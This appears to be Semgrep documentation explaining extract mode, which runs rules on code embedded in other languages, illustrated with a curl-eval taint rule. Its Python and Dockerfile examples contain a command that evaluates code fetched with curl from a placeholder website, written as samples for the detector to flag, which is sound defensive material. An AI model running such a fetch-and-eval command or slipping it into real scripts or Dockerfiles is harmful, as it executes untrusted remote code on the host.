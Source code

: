 ```yaml
---
id: extract-mode
append_help_link: true
description: "This article explains the extract mode, which allows for easier handling of files containing more than one language."
---
```


# Extract mode

## Introduction

Extract mode enables you to run existing rules on subsections of files where the rule language is different than the language of the file. For example, running a Javascript rule on code contained inside of script tags in an HTML document.

## Example of extract mode

Without extract mode, writing rules to validate template, Markdown or configuration files which contain code in another language can be burdensome and require significant rule duplication.

Let's take the following Bash rule as an example (a simplified version of [our `curl-eval` rule](https://github.com/returntocorp/semgrep-rules/blob/release/bash/curl/security/curl-eval.yaml)):

```yaml
rules:
  - id: curl-eval
    severity: WARNING
    languages:
      - bash
    message: Evaluating data from a `curl` command is unsafe.
    mode: taint
    pattern-sources:
      - pattern: |
          $(curl ...)
      - pattern: |
          `curl ...`
    pattern-sinks:
      - pattern: eval ...
```

Usually, this rule would only be run against Bash files. However, our project might contain Dockerfiles or Python scripts which invoke Bash commands&mdash;without an extract mode rule Semgrep won't know about any contained Bash, and therefore, will **not** run any Bash rules against those contained commands.

However, with extract mode we can provide Semgrep with instructions on how to extract any Bash commands we might be using in a Docker `RUN` instruction or as an argument to Python's `os.system` standard library function.

```yaml
rules:
  - id: extract-docker-run-to-bash
    mode: extract
    languages:
      - dockerfile
    pattern: RUN $...CMD
    extract: $...CMD
    dest-language: bash
  - id: extract-python-os-system-to-bash
    mode: extract
    languages:
      - python
    pattern: os.system("$CMD")
    extract: $CMD
    dest-language: bash
```

By adding the extract mode rules show above, Semgrep can match the Bash contained in the below Python file, and will report the contained Bash as  matching against the `curl-eval` rule.

```python
from os import system

if system('eval `curl -s "http://www.very-secure-website.net"`'):
    print("Command failed!")
else:
    print("Success")
```

Likewise, if our query included a Dockerfile with an equivalent Bash command, such as the example below, Semgrep would report the contained Bash as matching against the `curl-eval` rule.

```dockerfile
FROM fedora
RUN dnf install -y unzip zip curl which
RUN eval `curl -s "http://www.very-secure-website.net"`
```

## Extract mode rule schema

Extract mode rules **require** the following [usual Semgrep rule keys](../../writing-rules/rule-syntax/#required):
  - `id`
  - `languages`
  - One of `pattern`, `patterns`, `pattern-either`, or `pattern-regex`

Extract mode rules **also require** two additional fields:
  - `extract`
  - `dest-language`

The extract mode specific fields are further explained in two sections below.

### `extract`

The `extract` key is required when in extract mode. The value must be a metavariable appearing in your pattern(s), and the value bound to that metavariable will be extracted.

### `dest-language`

The `dest-language` key is required when in extract mode. The value must be a [language tag](../../writing-rules/rule-syntax/#language-extensions-and-tags) other than `generic`.


## Limitations of extract mode

Currently, extract mode does not support additional processing for the extracted text, such as unescaping strings, which might be useful for some applications like Jupyter Notebooks.

While extract mode can help to enable rules which try and track taint across a language boundary within a file, taint rules cannot have a source and sink split across the original file and extracted text.

